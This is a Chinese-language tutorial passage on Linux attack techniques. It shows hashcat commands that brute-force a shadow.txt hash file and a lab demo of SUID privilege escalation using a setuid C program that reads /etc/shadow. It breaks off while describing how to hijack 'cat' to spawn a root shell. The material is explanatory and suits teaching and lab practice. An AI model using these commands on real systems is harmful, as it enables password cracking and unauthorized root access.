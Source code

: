 操作步骤

1、将 shadow.txt 中放于密文

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821075746124.png)

**2、命令执行**

```
hashcat -a 3 -m 1800 shadow.txt --increment --increment-min 5 --increment-max 6 ?d?d?d?d?d?d

```

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821080443790.png)

如果想要他输出的话加一个命令

```
hashcat -a 3 -m 1800 shadow.txt --increment --increment-min 5 --increment-max 6 ?d?d?d?d?d?d -o result.txt

```

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821080559453.png)

Linux SUID 提权
=============

首先演示一遍，假设 root 用户创建了一个 suid.c 文件为以下代码

```
#include<stdlib.h>
#include<unistd.h>
int main()
{
setuid(0);//run as root
system("id");
system("cat /etc/shadow");
}

```

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821094758885.png)

接着 gcc 编译一下`gcc suid.c -o suid-exp`，然后给它一个 suid 的文件属性`chmod 4777 suid-exp`

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821095032678.png)

接着运行一下看看结果，发现可以运行 / etc/shadow 文件

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821095056561.png)

接着进入普通用户开始实战，普通用户无法访问 shadow

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821095145462.png)

但是可以执行刚刚 root 用户创建的 suid-exp 文件`./suid-exp`

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821095218753.png)

所以就可以想着劫持这个 cat 命令来执行 / bin/bash，不过像 suid 这种文件可以利用 find 找出来全部

